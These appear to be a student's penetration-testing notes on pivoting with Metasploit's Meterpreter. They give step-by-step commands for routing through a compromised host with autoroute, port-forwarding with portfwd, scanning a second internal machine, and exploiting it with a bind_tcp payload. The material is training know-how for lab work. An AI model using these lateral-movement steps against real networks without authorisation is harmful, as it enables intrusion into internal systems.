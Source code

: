
From one system get access to other systems within the same network 
Meterpreter provides us with the ability to add a network route to the internal networks subnet performing **port-forwarding** and scan and exploit other systems on the network. 


Port Forwarding 
- Process of redirecting traffic from a specific port on a target system to a specific port on our system 
- Forward a remote port on a previously inaccessible host to a local port on our Kali Linux system so that we can remotely interact/exploit the service running on the port

![[Pasted image 20230925204807.png]]
We can access victim one bc we exploited it and now have access to it. 
With networking information (enumeration) we know that victim 1 is part of a internal/private subnet. 
We can use victim 1 as a foothold to get access to victim 2
We cannot access victim 2 through our kali system, we need to use victim 1 that we compromised to get access to victim 2. 
We need to know what ports are open on victim2 so we can try to exploit the services - to find this out we need port-forwarding. 


---


1. ``ping`` victim 1 
2. ``ping`` victim 2 (no response means we cannot connect, only through victim 1 )
3. nmap service detection on victim 1 
4. exploit victim 1 
5. Perform local enumeration on victim 1 
	1. ``sysinfo`` 
	2. ``getuid`` 
	3. ``ipconfig`` (the netmask gives id of the range)
6. add route from victim 1 to victim 2 by adding entire subnet that victim 1 is part of: ``run autoroute -s 10.10.29.0/20``![[Pasted image 20230925210153.png]]
7. ``run autoroute -p`` to display routing table 
	when the subnet is added we can scan any device on that subnet, from within msfconsole 
8. search portscan (use portscan/tcp) (the scanning is done through victim 2 bc we cannot communicate directly to victim 2)
	1. ``show options`` 
	2. specify ``target ip`` (victim 2 machine) 
	3. set ``port range ``

Next step is to identify exact service version on a port (e.g. 80) on victim 2 - the best tool for this is nmap. Nmap cannot be run in msfconsole therefore, port-forwarding is needed. Get back into meterpreter session of victim machine 1: 
- ``portfwd add -l 1234 -p 80 -r victim2_ip ``
  (= add following local port 1234 and we are forwarding port 80 on victim machine 2 to kali linux system) We will be able to access the service on port 80 on victim 2.
- open new tab
- ``nmap -sV -p 1234 localhost`` 
  (identify the exact service that is running on port 80 on victim_machine_2)
- when you identified vulnerable services on victim 2. Go back to msfconsole. and try to exploit it: 
	- search exploit module of vulnerable service on victim 2
	- set ``payload`` (not a reverse tcp but a bind tcp) ``windows/meterpreter/bind_tcp`` 
	- ``set rhost victim2_machineip``
	- run 
	meterpreter session on victim 2 
